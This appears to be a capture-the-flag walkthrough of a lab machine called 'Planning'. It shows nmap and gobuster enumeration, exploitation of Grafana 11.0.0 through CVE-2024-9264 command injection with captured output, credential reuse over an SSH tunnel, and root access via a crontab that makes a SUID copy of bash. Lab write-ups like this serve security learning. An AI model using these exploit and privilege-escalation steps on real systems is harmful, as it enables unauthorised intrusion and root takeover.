




## Enumeration
> - Lets use nmap :
```bash
# Nmap 7.94SVN scan initiated Thu Sep  4 09:07:56 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.11.68
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  4 09:08:18 2025 -- 1 IP address (1 host up) scanned in 21.91 seconds
```


> - Now i can use brute force subdomain with `gobuster vhost` i found a new subdomain:
```bash
gobuster vhost -u http://planning.htb -w /usr/share/SecLists/Discovery/DNS/combined_subdomains.txt --append-domain -t 50                            ✔   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```



## Exploitation 

> - i now i use `whatweb` for show more information about my link .
> - i found `Grafana 11.0.0`.
> - So i can search for CVE or Exploit about this Grafana Version.
> - After more searching i found this [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264?tab=readme-ov-file)

> - Just run this command :
```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c whoami http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```
> - its Working , but i have 1 Prblm i wont to connect in this server , so after more another searching i found other [CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) for use reverse shell .
> - Just type thsi command & open a listener :



- Great!!!
- But this machine just for `Grafana` not o user owner 
- i run tool `linpeas` for show how i can open as privilege but i found something hhhhh



## SSH

> - For open ssh as user `enzo` , i found user flag but now i wont to be a ROOT , how i can do that !!!!
> - after more searching i found thsi path `/opt/crontabs/crontab.db` , thsi file has a Password of zip File
> - and now i type `netstat tupln` i found port `8000` is open now i can do this
> - i login with user enzo as localhost like this cmd : `ssh enzo@grafana.planning.htb -L 8000:127.0.0.1:8000`
> - Now let check `localhost:8000` in browser
> - I type my credentials user & password , bytheway password is the same password Zip File



## Privilege Escalation

- Now for Privsec i wont to create new crontab and put this command : `cp /bin/bash /tmp/bash && chmod u+s /tmp/bash`
- Afetr that click run Now & Go in ssh `/tmp/` you can show new file name is bash 
- Finaly just type `/tmp/bash -p` for reboot shell as File bash in tmp folder

```bash
enzo@planning:~$ cd /tmp
enzo@planning:/tmp$ ls

4KhnrhUdWCfowQmT.stderr                                                         systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-resolved.service-XFidJF
4KhnrhUdWCfowQmT.stdout                                                         systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-timesyncd.service-9iAmlh
bash                                                                            systemd-private-9483ebeaebd64fab82216ec7e1206997-upower.service-bDIWIx
linpeas.sh                                                                      tmux-1000
systemd-private-9483ebeaebd64fab82216ec7e1206997-fwupd.service-UDicPX           vmware-root_827-4256676229
systemd-private-9483ebeaebd64fab82216ec7e1206997-ModemManager.service-2rmc8r    YvZsUUfEXayH6lLj.stderr
systemd-private-9483ebeaebd64fab82216ec7e1206997-polkit.service-xCC45i          YvZsUUfEXayH6lLj.stdout
systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-logind.service-qcdKWG

enzo@planning:/tmp$ /tmp/bash -p
bash-5.2# whoami
root

```

